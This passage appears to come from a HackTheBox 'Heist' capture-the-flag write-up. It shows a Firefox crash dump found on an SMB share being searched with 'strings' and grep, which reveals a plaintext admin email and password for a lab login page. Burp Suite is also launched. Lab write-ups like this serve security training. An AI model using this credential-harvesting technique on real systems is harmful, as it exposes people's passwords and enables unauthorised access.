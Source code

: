 `dir K:\\`:
```
    Directory: K:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/9/2025   4:22 PM      304802397 firefox.dmp
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`burpsuite &`

![Burp Suite - Password Login Page](./assets/screenshots/hackthebox_heist_burpsuite_password_login_page.png)

`file ./smbshare/firefox.dmp`:
```
./smbshare/firefox.dmp: Mini DuMP crash report, 18 streams, Thu Jan  9 10:52:34 2025, 0x461826 type
```

`strings ./smbshare/firefox.dmp | grep 'login_password'`:
```
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=🔑
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
